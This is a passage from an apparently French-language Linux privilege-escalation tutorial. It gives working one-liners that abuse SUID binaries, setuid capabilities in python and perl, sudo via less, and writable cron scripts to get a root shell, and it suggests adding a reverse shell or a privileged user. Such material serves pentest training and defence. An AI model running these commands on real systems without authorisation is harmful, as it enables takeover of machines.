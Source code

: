 Le flag `-p` est crucial car il préserve les privilèges effectifs lors de l'exécution du shell.

Autres exemples courants :
- `nano` : ouvrir /etc/passwd et ajouter un utilisateur root
- `cp` : copier des fichiers sensibles ou remplacer des fichiers système
- `vim` : ouvrir un shell avec `:!sh`
- `python` : exécuter `import os; os.system('/bin/bash -p')`

#### Exploitation des capabilities

Certaines capabilities peuvent être exploitées directement :

```bash
# Si python a cap_setuid+ep
./python -c 'import os; os.setuid(0); os.system("/bin/bash")'

# Si perl a cap_setuid+ep
./perl -e 'use POSIX qw(setuid); setuid(0); exec "/bin/bash";'
```

#### Exploitation de sudo

La configuration de sudo peut permettre l'exécution de certaines commandes avec des privilèges élevés :

```bash
# Vérifier les permissions sudo
sudo -l
```

Si vous pouvez exécuter certains programmes avec sudo, consultez GTFOBins (https://gtfobins.github.io/) pour trouver des méthodes d'exploitation.

Exemple avec `less` :

```bash
sudo less /etc/profile
# Puis dans less, tapez :
!sh
```

#### Exploitation des tâches cron

Les tâches cron s'exécutent souvent avec des privilèges élevés. Si un script exécuté par cron est modifiable, vous pouvez l'exploiter :

```bash
# Vérifier les tâches cron système
cat /etc/crontab
ls -la /etc/cron.*

# Vérifier si des scripts sont modifiables
find /etc/cron* -type f -writable 2>/dev/null
```

Si vous trouvez un script modifiable, vous pouvez y ajouter une reverse shell ou une commande pour créer un utilisateur privilégié.
